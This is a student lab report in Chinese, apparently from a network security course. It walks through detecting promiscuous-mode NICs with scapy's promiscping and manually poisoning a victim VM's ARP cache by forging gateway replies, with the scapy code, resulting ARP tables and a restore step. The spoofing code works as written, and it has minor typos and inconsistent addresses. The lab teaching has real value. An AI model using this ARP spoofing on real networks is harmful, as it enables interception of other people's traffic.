








# 实验四 局域网主动监听实验

## 实验环境

+ VirtualBox
+ wireshark
+ tcpdump

## 实验流程

### 一、网络拓扑

**攻击者主机**

- 08:00:27:d1:a3:a4
- 192.168.138.255



**受害者主机**

- 08:00:27:a6:1f:10
- 172.16.222.105



**网关**

- 08:00:27:f6:ae:30
- 172.16.222.1



### 二、安装scapy

先在攻击者主机上装好python3和scapy

```bash
# 先安装python3
sudo apt update && sudo apt install python3 python3-pip

# 通过pip3安装scapy
pip3 install scapy[complete]
```

### 三、实验内容

#### 实验一：检测局域网中的异常终端

在受害者主机上检查网卡的「混杂模式」是否启用

```bash
ip link show enp0s3
```



并没有启动，没有promise，去攻击者主机开启scapy，输入代码

```bash
# 在攻击者主机上开启 scapy
scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.105")
```

**可以看到攻击者发送的试探靶机混杂模式的数据包是没有收到回复。同时在靶机上运行的wireshark也没有收到任何流量，说明当靶机的混杂模式没有打开时，是不会接收来自网络中的目的地址为其他主机的数据。**

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
ip link show enp0s3
sudo ip link set enp0s03 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip 
ip a
```



```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.222.105")
```

**而当目标主机打开混杂模式，它就会接收来自所有接口的数据并回复。这一点在攻击者主机和目标主机的wireshark上都有所体现。可以发现的是，攻击者主机是通过ARP请求来判断目标主机是否工作在混杂模式的**

```bash
# 最后，在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
ip link show enp0s3
```



#### 实验二：手工单步“毒化”目标主机的 ARP 缓存

**以下代码在攻击者主机上的 scapy 交互式终端完成**

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:d2:af:3c
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:d2:af:3c
#      psrc= 10.0.2.15
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.222.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.105", hwdst="08:00:27:d1:a3:a4")

# 发送上述伪造的 ARP 响应数据包到受害者主机
send(arpspoofed)
```




此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.222.1 dev enp0s3 lladdr 08:00:27:d1:a3:a4 REACHABLE
# 192.168.138.255 dev enp0s3 lladdr 08:00:27:d1:a3:a4 STALE
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:f6:ae:30", pdst="172.16.222.105", hwdst="08:00:27:a6:1f:10")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.222.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```



### 四、实验问题

1. 输入`pkt = promiscping("172.16.222.105")`发生报错


此时需要把账号换成root账号，`sudo su`

### 五、参考链接

[课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

